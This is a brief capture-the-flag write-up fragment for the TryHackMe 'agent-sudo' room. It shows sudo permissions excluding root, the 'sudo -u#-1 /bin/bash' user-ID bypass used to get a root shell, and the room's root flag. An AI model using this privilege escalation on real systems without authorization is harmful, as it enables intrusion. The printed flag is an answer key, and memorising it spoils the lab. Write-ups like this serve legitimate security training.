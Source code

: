 ```
Matching Defaults entries for james on agent-sudo:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User james may run the following commands on agent-sudo:  
   (ALL, !root) /bin/bash
```
wait tryhackme ask for CVE so check it on internet 

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash  
[sudo] password for james:    
root@agent-sudo:~# ls  
Alien_autospy.jpg  user_flag.txt  
root@agent-sudo:~# cd /root  
root@agent-sudo:/root# ls  
root.txt  
root@agent-sudo:/root# cat root.txt  
To Mr.hacker,  
  
Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your mach  
ine.    
  
Your flag is    
b53a02f55b57d4439e3341834d70c062  
  
By,  
DesKel a.k.a Agent R
```
